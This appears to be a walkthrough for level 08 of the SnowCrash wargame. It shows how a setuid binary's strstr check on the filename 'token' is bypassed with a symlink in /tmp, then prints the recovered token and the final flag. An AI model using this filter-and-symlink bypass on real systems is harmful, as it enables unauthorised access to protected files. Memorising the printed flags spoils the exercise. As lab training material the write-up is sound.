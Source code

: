 # Level 08

- Once logged in, you will see couple files
```
???$ ssh level08@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level08@localhost's password:
level08@SnowCrash:~$
level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$
level08@SnowCrash:~$ ls -ls
total 16
12 -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
 4 -rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

let's run the binary and see what it does

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
...
level08@SnowCrash:~$ cat token
cat: token: Permission denied
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
as seen above, the `token` cannot be accesseed within the `level08` user

of course, the below would not work ;)

```
level08@SnowCrash:~$ chmod +x token
chmod: changing permissions of `token': Operation not permitted
```

`ltrace` with the token that is not accessible, below is the result
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                      = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                  = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$
```
the `strstr` function is used to check if the filename contains `token`, it cannot be executed.

let's try using the symbolic link to resolve this
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/passcode
level08@SnowCrash:~$ ls -ls /tmp/passcode
0 lrwxrwxrwx 1 level08 level08 24 May 11 04:57 /tmp/passcode -> /home/user/level08/token
```
at least the permissions are set, and let's try getflag

```
level08@SnowCrash:~$ ./level08 /tmp/passcode
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```
